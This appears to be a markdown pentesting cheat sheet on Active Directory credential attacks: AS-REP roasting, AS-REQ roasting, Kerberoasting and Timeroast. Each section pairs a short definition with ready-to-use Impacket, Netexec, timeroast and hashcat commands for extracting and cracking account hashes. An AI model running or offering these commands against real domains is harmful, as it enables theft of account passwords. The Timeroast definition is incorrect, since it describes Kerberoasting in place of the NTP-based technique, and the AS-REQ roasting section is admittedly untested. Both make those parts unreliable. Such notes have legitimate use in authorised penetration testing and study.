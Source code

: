 # Asreproast

AS-REP Roasting (short technical definition):
An offline credential-extraction attack that targets accounts with Kerberos pre-authentication disabled. An attacker requests an AS‑REQ for such a user, receives an AS‑REP containing an encrypted authentication blob protected by the user’s key (derived from their password), extracts that blob and performs offline cracking (e.g. brute‑force or dictionary) to recover the user’s plaintext password or key.

Impacket -> `GetNPUsers.py <domain>/ -usersfile <file with usernames> -format hashcat -outputfile <outfile with hashes>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p '' --asreproast <outfile with hashes>`

<br>

# AsreQroast

Theoreticaly allows you to extract user hash from a .pcap file if contains an AS_REQ message (I didn't test it). More information can be found here:

https://www.thehacker.recipes/ad/movement/kerberos/asreqroast

https://github.com/lgandx/PCredz

<br>

# Kerberoast

An offline attack that targets Active Directory service accounts with a registered SPN. An attacker requests a service ticket (TGS) for the SPN, extracts the ticket’s encrypted service-ticket blob (encrypted with the service account’s key derived from its password), and performs offline cracking against that blob to recover the account’s plaintext password or key.

Impacket -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:<password>' -outputfile <outfile with hashes>`

Impacket pass-the-hash -> `GetUserSPNs.py -dc-ip <ip/machine.domain> '<domain>/<user>:' -outputfile <outfile with hashes> -hashes :<nthash>`

Netexec -> `nxc ldap <ip/machine.domain> -u <users list> -p <password/ -H hash> --kerberoasting <outfile with hashes>`

<br>

# Timeroast

Timeroast is an Active Directory attack technique that targets Kerberos authentication by extracting service tickets (TGS) for accounts with Service Principal Names (SPNs). These tickets are encrypted with the service account’s NT hash, which the attacker can capture and crack offline using brute force or dictionary attacks. The goal is to recover the service account’s password, which often has high privileges and rarely changes.

Example:

`python3 timeroast.py <dc_ip> > hashs ; hashcat -m 31300 -a 0 hashs rockyou.txt --username`

https://github.com/SecuraBV/Timeroast/tree/main
